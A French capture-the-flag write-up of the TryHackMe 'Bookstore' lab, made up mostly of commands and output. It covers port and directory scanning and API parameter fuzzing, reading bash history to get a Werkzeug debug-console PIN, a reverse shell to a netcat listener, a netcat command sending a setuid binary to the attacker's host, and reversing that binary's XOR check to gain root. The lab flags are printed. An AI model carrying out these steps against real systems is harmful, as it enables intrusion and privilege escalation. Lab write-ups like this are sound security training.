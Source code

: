 # Bookstore #

## Task 1 Bookstore ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.59.185 bookstore.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A  bookstore.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-11 22:19 CEST
Nmap scan report for bookstore.thm (10.10.59.185)
Host is up (0.036s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Book Store
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-server-header: Werkzeug/0.14.1 Python/3.6.9
|_http-title: Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=9/11%OT=22%CT=1%CU=41441%PV=Y%DS=2%DC=T%G=Y%TM=613D0F9
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   34.54 ms 10.9.0.1
2   34.71 ms bookstore.thm (10.10.59.185)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.77 seconds

```

D'après nmap on a plusieurs services qui sont :  
Le service SSH sur le port 22.   
Le service HTTP sur le port 80 et 5000.   

On voit sur le port 5000 le site web possède un fichier robot.txt avec le contenu /api 

![page1](./Task1-01.png)

avec le lien api on nous montre comment utiliser l'api.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://bookstore.thm:5000/ -w /usr/share/dirb/wordlists/common.txt -q
/api                  (Status: 200) [Size: 825]
/console              (Status: 200) [Size: 1985]
/robots.txt           (Status: 200) [Size: 45]  
```

On trouve un nouveau lien qui est console.   

![page2](./Task1-02.png) 

On tombe sur une page qui nous demande un code PIN.   

```bash
tim@kali:~/Bureau/wfuzz -u http://bookstore.thm:5000/api/v2/resources/books?FUZZ=fuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404-medium.txt --hc 404
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://bookstore.thm:5000/api/v2/resources/books?FUZZ=fuzz
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                      
=====================================================================

000000486:   200        1 L      1 W        3 Ch        "author"                                                                                                                                                                     
000000529:   200        1 L      1 W        3 Ch        "id"                                                                                                                                                                         
000011548:   200        1 L      1 W        3 Ch        "published"      
```

Avec la version 2 de l'api on ne trouve rien.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wfuzz -u http://bookstore.thm:5000/api/v1/resources/books?FUZZ=fuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://bookstore.thm:5000/api/v1/resources/books?FUZZ=fuzz
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                      
=====================================================================

000000395:   500        356 L    1747 W     23076 Ch    "show"                                                                                                                                                                       
000000486:   200        1 L      1 W        3 Ch        "author"                                                                                                                                                                     
000000529:   200        1 L      1 W        3 Ch        "id"                                                                                                                                                                         
000011548:   200        1 L      1 W        3 Ch        "published"                          
```

Avec la version 1 on trouve le paramètre show.   

![page3](./Task1-03.png) 

La commande show nous permet de voir les fichiers dans le répertoire courant on pourrait lire le premier flag.  
On lit l'historique de bash qui se trouve dans .bash_history.   
On trouve un code pin qui est 123-321-135.  

![page4](./Task1-04.png) 

On rentre le code pin. 

![page5](./Task1-05.png) 

On tombe sur un interpréteur python.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port 1234, car on va initier un reverse shell qui communiquera avec le port 1234.  

![page6](./Task1-06.png) 

Dans la console on met un reverse shell en python.  

**User flag**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.12.248] 48630
/bin/sh: 0: can't access tty; job control turned off
$ ls -al
total 80
drwxr-xr-x 5 sid  sid   4096 Oct 20  2020 .
drwxr-xr-x 3 root root  4096 Oct 20  2020 ..
-r--r--r-- 1 sid  sid   4635 Oct 20  2020 api.py
-r-xr-xr-x 1 sid  sid    160 Oct 14  2020 api-up.sh
-r--r----- 1 sid  sid    116 Sep 12 14:08 .bash_history
-rw-r--r-- 1 sid  sid    220 Oct 20  2020 .bash_logout
-rw-r--r-- 1 sid  sid   3771 Oct 20  2020 .bashrc
-rw-rw-r-- 1 sid  sid  16384 Oct 19  2020 books.db
drwx------ 2 sid  sid   4096 Oct 20  2020 .cache
drwx------ 3 sid  sid   4096 Oct 20  2020 .gnupg
drwxrwxr-x 3 sid  sid   4096 Oct 20  2020 .local
-rw-r--r-- 1 sid  sid    807 Oct 20  2020 .profile
-rwsrwsr-x 1 root sid   8488 Oct 20  2020 try-harder
-r--r----- 1 sid  sid     33 Oct 15  2020 user.txt
$ cat user.txt
4ea65eb80ed441adb68246ddf7b964ab
```

On obtient un shell.  
On lit le fichier user.txt et on a notre flag.   
Le flag est : 4ea65eb80ed441adb68246ddf7b964ab  

**Root flag**

On remarque dans les fichiers, le fichier try-harder est setuid.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lp 4444 > try-harder 
-------
$ nc 10.9.228.66 4444 < try-harder
```

On transfère try-harder pour analyse.  

```cpp
void main(void)

{
  long in_FS_OFFSET;
  uint local_1c;
  uint local_18;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setuid(0);
  local_18 = 0x5db3;
  puts("What\'s The Magic Number?!");
  __isoc99_scanf(&DAT_001008ee,&local_1c);
  local_14 = local_1c ^ 0x1116 ^ local_18;
  if (local_14 == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
  else {
    puts("Incorrect Try Harder");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

On décompile le fichier avec ghidra.   

```cpp
local_18 = 0x5db3;
  puts("What\'s The Magic Number?!");
  __isoc99_scanf(&DAT_001008ee,&local_1c);
  local_14 = local_1c ^ 0x1116 ^ local_18;
  if (local_14 == 0x5dcd21f4) {
```

Le programme demmande un nombre à l'utilisateur vérifie par des xor (ou exclusif) si le réusltat est bon.  
0x5dcd21f4 = saisie xor 0x1116 xor 5db3.   

La fonction ou exclusif est une fonction reversible.  

```
tim@kali:~/Bureau/tryhackme/write-up$ python3
Python 3.8.0 (default, Sep  1 2021, 20:05:29) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x5dcd21f4^0x1116^0x5db3
1573743953
```

On calcul la réponse.  
La réponse est 1573743953.    

```bash
$ ./try-harder
1573743953
id
uid=0(root) gid=1000(sid) groups=1000(sid)
cat /root/root.txt
e29b05fba5b2a7e69c24a450893158e3
```

On rentre la réponse est on obtient un shell avec les droits root.   
On lit le fichier root.txt.   
La réponse est : e29b05fba5b2a7e69c24a450893158e3    



